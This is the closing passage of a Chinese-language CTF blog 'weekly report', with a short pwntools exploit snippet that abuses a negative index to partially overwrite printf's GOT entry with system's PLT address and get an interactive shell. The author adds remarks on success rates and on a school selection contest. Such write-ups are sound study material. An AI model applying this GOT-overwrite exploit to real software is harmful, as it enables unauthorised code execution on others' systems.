 ```python

r.recvuntil("change:")
r.sendline("-9")
r.recvuntil("content:")
r.send(sys_plt)

r.interactive()
```

​	由于在题目中,`printf()`是第一次调用,因此`printf()`的got表存储的是`printf()`的plt表地址.这样的话,我们只需要使用部分写入,将`system()`的plt表地址后3位覆盖`printf()`即可.

​	另外理论上来说,部分写入每次的成功率是1/16,但我线下尝试的时候3次成功,线上尝试的时候试了80多次...两个极端情况都给我碰上了.



那么本次周报就到这里.

回去看了看我自己校内选拔赛的录屏,感觉我有一半的时间都在发呆...~~都怪免疫系统在大战感冒病毒的时候没有考虑到我还要打选拔赛~~.

